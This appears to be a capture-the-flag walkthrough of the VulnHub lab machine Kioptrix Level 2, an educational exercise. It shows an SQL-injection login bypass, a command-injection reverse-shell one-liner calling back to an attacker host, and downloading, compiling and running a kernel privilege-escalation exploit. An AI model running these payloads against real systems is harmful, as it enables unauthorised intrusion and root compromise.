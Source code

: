 ```yaml
---
layout: post
title: "Kioptrix Level 2"
date: 2022-02-09
categories: [VulnHub, Easy-Vulnhub]
tags: [boot2root]
image: ../../assets/img/posts/Kioptrix Level 2/Kioptrix2.png
---
```


## Description

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges. 

|**Box**|[Kioptrix Level 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Kioptrix](https://www.vulnhub.com/author/kioptrix,8/)|

---

We'll start with first discovering the IP address of the box using **netdiscover** tool,

```bash
sudo netdiscover -r 10.0.2.0/24
```

![netdiscover](../../assets/img/posts/Kioptrix Level 2/netdiscover.png)

Okay, so the IP address of the box is **10.0.2.67**.

Now, let's start port scanning with **nmap**,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.0.2.67
```

![nmap1](../../assets/img/posts/Kioptrix Level 2/nmap1.png)
![nmap2](../../assets/img/posts/Kioptrix Level 2/nmap2.png)

there are multiple ports open. Let's enumerate each one of them.

Let's find out what technologies are running on the machine using **whatweb** tool,

```bash
whatweb http://10.0.2.67
```

![whatweb](../../assets/img/posts/Kioptrix Level 2/whatweb.png)

it's running PHP programming language, has a password field (maybe login mechanism).

visit http://10.0.2.67,

![web1](../../assets/img/posts/Kioptrix Level 2/web1.png)

we got a admin login page. Let's try to break through in using SQLi.

We'll put username as `admin' or 1=1#` and password as `admin`(**any**)

![web2](../../assets/img/posts/Kioptrix Level 2/web2.png)

we'll get logged in as administrator,

![web3](../../assets/img/posts/Kioptrix Level 2/web3.png)

seems like this is a web console and we can ping any machines. Let's ping our own machine,

when **127.0.0.1** is entered in empty area, we'll get this result,

![web4](../../assets/img/posts/Kioptrix Level 2/web4.png)

we got ping result. This is a OS Command Execution Vulnerability and we can run other system commands as well on this web console.

Let's get to know which user we're by, `whoami`

![web5](../../assets/img/posts/Kioptrix Level 2/web5.png)

Let's start the netcat listener on kali terminal using `nc -nvlp 4444` and we'll put this one liner reverse shell in ping utility of website to get us a reverse shell when command gets executed.

```bash
127.0.0.1; bash -c 'exec bash -i &>/dev/tcp/10.0.2.15/4444 <&1'
```

![web6](../../assets/img/posts/Kioptrix Level 2/web6.png)

as soon as this command runs, we'll get back a reverse connection,

![shell1](../../assets/img/posts/Kioptrix Level 2/shell1.png)

we're apache user.

After enumeration, I found that there's nothing we can do to elevate our privileges to users like john or harold. 

**Privilege Escalation:** we'll escalate our privileges to super-user with help of enumeration. Let's first find out what is the system OS running,

```bash
cat /etc/*-release
```

![shell2](../../assets/img/posts/Kioptrix Level 2/shell2.png)

this box is running **CentOS 4.5 Final**.

Let's take a look at kernel version,

```bash
uname -mrs
```

![shell3](../../assets/img/posts/Kioptrix Level 2/shell3.png)

The kernel version of this box is **Linux 2.6.9-55.EL**. After doing some research on google, I found that this kernel is named as **IP_Append_data()**. Let's search this exploit on searchsploit,

```bash
searchsploit ip append data
```

![searchsploit](../../assets/img/posts/Kioptrix Level 2/searchsploit.png)

this is a C file exploit.

Let's download the exploit on our dir and start the python webserver using `python3 -m http.server 8000` and now we're going to upload this exploit on the box,

first navigate to /tmp directory because this directory has writable permissions and then we'll download this exploit using **wget** command,

```bash
wget http://10.0.2.15:8000/9542.c
```

Let's now compile this exploit using **gcc** compiler,

```bash
gcc -o 9542 9542.c
```

Now, let's run the exploit,

```bash
./9542
```

![shell4](../../assets/img/posts/Kioptrix Level 2/shell4.png)

doing `id` will show us that we're now ROOT user!!!.
